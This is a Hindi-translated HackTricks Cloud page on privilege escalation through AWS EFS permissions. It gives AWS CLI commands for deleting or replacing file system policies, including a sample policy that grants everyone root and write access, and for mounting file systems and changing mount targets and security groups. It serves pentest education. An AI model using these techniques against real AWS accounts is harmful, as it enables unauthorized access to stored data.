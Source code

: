 # AWS - EFS Privesc

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करें।

</details>
{% endhint %}

## EFS

EFS के बारे में अधिक **जानकारी**:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

याद रखें कि EFS को माउंट करने के लिए आपको उस उपनेटवर्क में होना चाहिए जहाँ EFS एक्सपोज़ किया गया है और आपके पास इसकी पहुँच हो (सुरक्षा समूह)। यदि ऐसा हो रहा है, तो डिफ़ॉल्ट रूप से, आप हमेशा इसे माउंट कर सकेंगे, हालाँकि, यदि इसे IAM नीतियों द्वारा सुरक्षित किया गया है, तो आपको इसे एक्सेस करने के लिए यहाँ उल्लेखित अतिरिक्त अनुमतियाँ होनी चाहिए।

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

इनमें से किसी भी अनुमति के साथ, एक हमलावर **फाइल सिस्टम नीति** को **बदल सकता है** ताकि **आपको इसकी पहुँच** मिल सके, या बस **इसे हटा सकता है** ताकि **डिफ़ॉल्ट पहुँच** दी जा सके।

नीति को हटाने के लिए:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
इसको बदलने के लिए:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

इस अनुमति के साथ, एक हमलावर **EFS को माउंट** करने में सक्षम होगा। यदि लिखने की अनुमति डिफ़ॉल्ट रूप से सभी को नहीं दी गई है जो EFS को माउंट कर सकते हैं, तो उसके पास केवल **पढ़ने की अनुमति** होगी।
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
अतिरिक्त अनुमतियाँ `elasticfilesystem:ClientRootAccess` और `elasticfilesystem:ClientWrite` का उपयोग **लेखन** के लिए किया जा सकता है जब यह फ़ाइल सिस्टम माउंट किया गया हो और **रूट** के रूप में उस फ़ाइल सिस्टम **तक पहुँचने** के लिए।

**संभावित प्रभाव:** फ़ाइल सिस्टम में संवेदनशील जानकारी को खोजकर अप्रत्यक्ष प्रिवेस्क।

### `elasticfilesystem:CreateMountTarget`

यदि आप एक हमलावर हैं जो एक **उपनेटवर्क** के अंदर हैं जहाँ EFS का **कोई माउंट टारगेट** नहीं है। वह इस विशेषाधिकार के साथ **अपने उपनेट में एक बना सकता है**:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**संभावित प्रभाव:** फ़ाइल सिस्टम में संवेदनशील जानकारी को खोजकर अप्रत्यक्ष प्रिवेस्क।

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

एक परिदृश्य में जहाँ एक हमलावर पाता है कि EFS का माउंट टारगेट उसके उपनेटवर्क में है लेकिन **कोई सुरक्षा समूह ट्रैफ़िक की अनुमति नहीं दे रहा है**, वह बस **चुनिंदा सुरक्षा समूहों को संशोधित करके उसे बदल सकता है**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**संभावित प्रभाव:** फ़ाइल सिस्टम में संवेदनशील जानकारी को खोजकर अप्रत्यक्ष प्रिवेस्क।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
